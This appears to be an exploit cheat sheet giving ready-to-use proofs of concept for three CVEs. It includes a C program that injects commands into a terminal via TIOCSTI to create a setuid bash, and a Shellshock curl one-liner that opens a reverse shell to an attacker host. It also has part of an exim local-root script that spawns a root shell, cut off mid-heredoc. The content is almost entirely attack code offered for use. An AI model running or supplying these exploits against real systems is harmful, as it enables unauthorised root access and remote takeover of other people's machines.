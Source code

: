 ## CVE-2005-4890: TTY Hijacking / TTY Input Pushback via TIOCSTI

> https://ruderich.org/simon/notes/su-sudo-from-root-tty-hijacking

```c
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/ioctl.h>
int main() {
    int fd = open("/dev/tty", O_RDWR);
    if (fd < 0) {
        perror("open");
        return -1;
    }
    char *x = "exit\ncp /bin/bash /tmp/bash; chmod u+s /tmp/bash\n";
    while (*x != 0) {
        int ret = ioctl(fd, TIOCSTI, x);
        if (ret == -1) {
            perror("ioctl()");
        }
        x++;
    }
    return 0;
}
```

```console
$ gcc <FILE>.c -static
```

## CVE-2014-6271: Shellshock RCE PoC

```console
$ curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1' http://<RHOST>/cgi-bin/user.sh
```

## CVE-2016-1531: exim LPE

- exim version <= 4.84-3

```bash
#!/bin/sh
# CVE-2016-1531 exim <= 4.84-3 local root exploit
# ===============================================
# you can write files as root or force a perl module to
# load by manipulating the perl environment and running
# exim with the "perl_startup" arguement -ps. 
#
# e.g.
# [fantastic@localhost tmp]$ ./cve-2016-1531.sh 
# [ CVE-2016-1531 local root exploit
# sh-4.3# id
# uid=0(root) gid=1000(fantastic) groups=1000(fantastic)
# 
# -- Hacker Fantastic 
echo [ CVE-2016-1531 local root exploit
cat > /tmp/root.pm << EOF
package root;
use strict;
use warnings;

system("/bin/sh");
```
